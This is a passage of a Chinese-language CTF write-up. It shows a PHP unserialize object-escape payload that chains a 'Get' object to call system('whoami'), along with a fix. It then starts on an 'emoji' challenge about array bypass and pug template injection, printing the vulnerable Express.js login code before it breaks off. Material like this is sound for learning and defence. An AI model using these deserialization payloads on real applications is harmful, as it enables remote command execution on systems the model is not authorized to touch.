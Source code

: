 ```javascript
$get->func = "whoami";

$go = new Go();
$go->ray = $get;
```
接着便是序列化对象逃逸
最后payload
```javascript
?ciscn_huaibei.pop=getflaggetflaggetflaggetflaggetflaggetflaggetflag&pop=;;";s:3:"end";O:2:"Go":1:{s:3:"ray";O:3:"Get":2:{s:4:"func";s:6:"whoami";s:4:"name";O:3:"Get":2:{s:4:"func";s:6:"system";s:4:"name";N;}}}
```
fix
删掉`$this->use=$this->useless;`
### emoji
数组绕过；pug模板注入
```javascript
const express = require('express');
const ejs=require('ejs')
const session = require('express-session');
const bodyParse = require('body-parser');
const pugjs=require('pug')
function IfLogin(req, res, next){
  if (req.session.user!=null){
    next()
  }else {
    res.redirect('/login')
  }
}
admin={
  "username":"admin",
  "password":"😍😂😍😒😘💕😁🙌"

}
app=express()
app.use(express.json());
app.use(bodyParse.urlencoded({extended: false}));
app.set('view engine', 'ejs');
app.use(session({
  secret: '**************',
  resave: false,
  saveUninitialized: true,
  cookie: { maxAge: 3600 * 1000 }
}));

app.get('/',IfLogin,(req,res)=>{
  res.send('if you want flag .then go to /admin ,and find a way to get it . no pain, no gain !')
})
app.get('/login',(req,res)=>{
  console.log(req.session.user)
  res.render('login')

})
app.post('/login',(req,res)=>{

  var username=req.body.username
  var password=req.body.password

  if(username||password){
    if(username.includes('ad')){
      res.send('you not the true admin')
    }else {
```
